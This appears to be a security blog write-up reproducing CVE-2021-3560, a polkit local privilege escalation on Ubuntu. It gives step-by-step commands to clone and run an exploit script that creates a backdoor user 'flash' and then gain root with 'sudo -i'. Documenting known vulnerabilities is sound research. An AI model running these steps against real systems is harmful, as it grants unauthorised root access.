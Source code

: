 ```yaml
---
title: Exploiting CVE-2021-3560
tags: [Research]
style: fill
color: success
comments: true
description: Local privilege escalation via polkit
---
```


## Introduction

Local privilege escalation via `polkit` (CVE-2021-3560)

***Note:*** The vulnerability was originally discovered by [Kevin Backhouse](https://twitter.com/kevin_backhouse) from [GitHub Security Lab](https://twitter.com/GHSecurityLab). I've just written the code to automate the exploit.

## Testing Environment

The exploit has been tested on `Ubuntu-20.04.1-Desktop` with `policykit-1 0.105-26ubuntu1`

![version](https://i.imgur.com/MBfYklQ.png)

## Steps to Redproduce

Install Open SSH Server & start it

```
sudo apt update
sudo apt install -y openssh-server 
sudo systemctl start ssh
```

Login via ssh

```
ssh localhost
```

![ssh](https://i.imgur.com/xd0v5AY.png)

Download the exploit

```
git clone https://github.com/deathflash1411/CVE-2021-3560 && cd CVE-2021-3560
```

![git clone](https://i.imgur.com/M6A6JDO.png)

Run the exploit

```
python3 CVE-2021-3560.py
```

![exploit](https://i.imgur.com/trlHkzC.png)

A new user `flash` has been created with uid `1001`

Run the command displayed by the exploit

![command](https://i.imgur.com/SsHZ9x1.png)

Login as `flash` with password `flash` via su and spawn a root shell `sudo -i`

```
su - flash
```

![rooted](https://i.imgur.com/qRvp1WI.png)

***Note:*** The command might not work on the first try, run it a few times if you're unable to login.

## References

- [https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [https://www.youtube.com/watch?v=QZhz64yEd0g](https://www.youtube.com/watch?v=QZhz64yEd0g)
- [https://ubuntu.com/security/CVE-2021-3560](https://ubuntu.com/security/CVE-2021-3560)